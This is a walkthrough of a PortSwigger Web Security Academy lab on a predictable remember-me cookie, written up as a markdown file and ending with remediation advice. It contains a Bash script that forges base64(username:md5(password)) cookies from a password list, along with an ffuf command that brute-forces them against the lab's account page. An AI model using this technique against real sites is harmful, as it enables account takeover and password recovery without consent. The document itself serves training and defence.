






# Brute Forcing a Stay-Logged-In Cookie

> **Platform:** PortSwigger Web Security Academy  
> **Module:** Authentication vulnerabilities  
> **Lab:** Brute forcing a stay-logged-in cookie  
> **Lab link:** https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-other-authentication-mechanisms/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie#  
> **Goal:** Gain access to Carlos's account by exploiting the stay-logged-in cookie.

---

## 1. Lab Goal

The goal of this lab is to gain access to `carlos`'s account by exploiting the `stay-logged-in` cookie.

The lab gives us one known account and a candidate password list:

```text
wiener:peter
carlos:???
candidate_password list
```

So the main target is not the normal login form directly. The interesting part is the `stay-logged-in` cookie and how it is generated.

---

## 2. Initial Observation

First, I logged in using the given credentials:

```text
wiener:peter
```

While logging in, I selected the **stay logged in** option.



The login request sends a POST request with this payload:

```http
username=wiener&password=peter&stay-logged-in=on
```

After a successful login, the application redirects to the account page:

```text
/my-account?id=wiener
```

For this account page, the browser sends a GET request with two cookies:

```text
session=<session_cookie>
stay-logged-in=<stay_logged_in_cookie>
```

The `stay-logged-in` cookie is generated after the login request and then used when visiting the account page.

---

## 3. Hypothesis

My hypothesis was:

If I can get or generate a valid `stay-logged-in` cookie for `carlos`, then I should be able to access Carlos's account page directly.

So instead of brute-forcing the login form normally, I started analyzing how the `stay-logged-in` cookie is generated.

---

## 4. Analyzing the Stay-Logged-In Cookie

I obtained the `stay-logged-in` cookie for the `wiener` account from the browser.



The cookie value was:

```text
d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
```

At first, it looked encrypted or encoded. I tried the simplest decoding technique first, which was Base64 decoding.

```bash
printf "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d
```

The decoded value was:

```text
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

So the cookie is not just random. It contains:

```text
username:something
```

The `something` part looked like a hash. Since it was 32 hexadecimal characters, it had a high probability of being an MD5 hash.

Because hashing is one-way, I cannot simply "dehash" it. But I can hash relevant values and compare the result.

Possible values could be things like:

```text
timestamp
password
other user-related data
```

I decided to test the password first.

```bash
printf "peter" | md5sum
```

The output was:

```text
51dc30ddc473d43a6011e9ebba6ca770  -
```

This is exactly the same hash that was inside the decoded cookie.

So now it is confirmed that the cookie is generated like this:

```text
base64(username:md5(password))
```

For `wiener:peter`, it becomes:

```text
wiener:md5(peter)
```

Then that full value is Base64 encoded.

---

## 5. Vulnerability Summary

The application has an insecure `stay-logged-in` cookie generation mechanism.

Instead of generating a secure random token, it creates a predictable cookie using this format:

```text
base64(username:md5(password))
```

This is weak because if we know the username and have a candidate password list, we can generate possible cookies ourselves and brute-force the correct one.

In this lab, we know the target username is:

```text
carlos
```

So we only need to generate possible `stay-logged-in` cookies for Carlos using the provided password list.

---

## 6. Generating a Cookie List for Carlos

Now that I knew the cookie generation method, I created a list of possible cookies for `carlos`.

I used this Bash script:

```bash
#!/usr/bin/env bash

touch cookies.txt

while IFS= read -r p; do
    Hashed_Pass=$(printf '%s' "$p" | md5sum | cut -d' ' -f1)
    UncodedCookie="carlos:$Hashed_Pass"
    CodedCookie=$(printf "$UncodedCookie" | base64 -w 0)
    printf '%s\n' "$CodedCookie" >> cookies.txt
done < pass_list.txt
```

This basically does the following:

1. Reads each password from the list.
2. Hashes the password using MD5.
3. Cuts the trailing spaces from the `md5sum` output.
4. Appends the hash with the username in this format:

   ```text
   carlos:<md5_hash>
   ```

5. Base64 encodes the full value.
6. Appends the encoded cookie to `cookies.txt`.
7. Repeats the process until the end of the password list.

After running this script, I had a `cookies.txt` file containing possible `stay-logged-in` cookie values for Carlos.

---

## 7. Brute-Forcing the Cookie

Now that I had the cookie list, I used `ffuf` to brute-force the `stay-logged-in` cookie.

The command I used was:

```bash
ffuf -w cookies.txt \
-u https://0aa50076038cc600805f4ec200b90001.web-security-academy.net/my-account?id=carlos \
-b "stay-logged-in=FUZZ" \
-t 50 \
-mc 200
```

What this command does:

- `-w cookies.txt` uses the generated cookie list as the wordlist.
- `-u` targets Carlos's account page.
- `-b "stay-logged-in=FUZZ"` places each generated cookie value into the `stay-logged-in` cookie.
- `-t 50` runs with 50 threads.
- `-mc 200` only shows responses with status code `200`.

Since the correct cookie returns a `200` response, `ffuf` gives us the valid cookie for Carlos.



The correct request returned `200`, which confirmed that the valid `stay-logged-in` cookie for Carlos was found.



---

## 8. Logging In Visually Using the Cookie

After finding the valid cookie, logging into the account visually is simple.

To do it in the browser:

1. Open the browser cookies.
2. Replace the current `stay-logged-in` cookie with the valid cookie found by `ffuf`.
3. Delete the old `session` cookie, because that session was tied to the `wiener` account.
4. Visit this URL:

```text
https://0aa50076038cc600805f4ec200b90001.web-security-academy.net/my-account?id=carlos
```

Once the browser sends the valid `stay-logged-in` cookie for Carlos, the application accepts it and opens Carlos's account page.

---

## 9. Extracting Carlos's Password

If we also want to get our hands on the password, we can do that too.

Since the cookie list was generated from the password list in the same order, the line number of the valid cookie in `cookies.txt` matches the line number of the correct password in `pass_list.txt`.

First, find the line number of the valid cookie:

```bash
grep -n "<stay-logged-in-cookie>" cookies.txt
```

It will return something like this:

```text
x:<cookie_value>
```

Now grab that line number and use it to print the matching password from the password list:

```bash
sed -n "xp" pass_list.txt
```

Here, replace `x` with the line number returned by `grep`.

This gives us the password that generated the valid cookie.



---

## 10. Lab Solved

After setting the correct cookie and visiting Carlos's account page, the lab was solved.



And there you have it!

---

## 11. Remediation / Fix

The main issue is that the `stay-logged-in` cookie is predictable.

A secure application should not generate persistent login cookies using:

```text
base64(username:md5(password))
```

To fix this issue:

- Use a cryptographically secure random token for remember-me functionality.
- Store the token server-side and link it to the user account.
- Never include password hashes or password-derived values inside client-side cookies.
- Hash stored remember-me tokens on the server, similar to how passwords are stored.
- Expire old tokens after logout, password change, or suspicious activity.
- Add rate limiting and monitoring for repeated invalid cookie attempts.

A safer remember-me cookie should look random and should not be guessable from the username or password.

---

## 12. Lessons Learned

- Stay-logged-in cookies should always be checked carefully because they may contain predictable data.
- Base64 is encoding, not encryption.
- MD5 hashes are easy to recognize because they are commonly 32 hexadecimal characters.
- If a cookie is generated from `username:hash(password)`, it can be brute-forced using a password list.
- Sometimes brute-forcing the cookie is easier than brute-forcing the login form directly.

---

## 13. Final Summary

This lab demonstrated a weak remember-me cookie implementation. After logging in as `wiener`, I decoded the `stay-logged-in` cookie and found that it contained the username and an MD5 hash of the password. By confirming that the hash matched `md5(peter)`, I was able to recreate the cookie format for `carlos`. Then I generated possible cookies from the password list, brute-forced them with `ffuf`, and used the valid cookie to access Carlos's account.
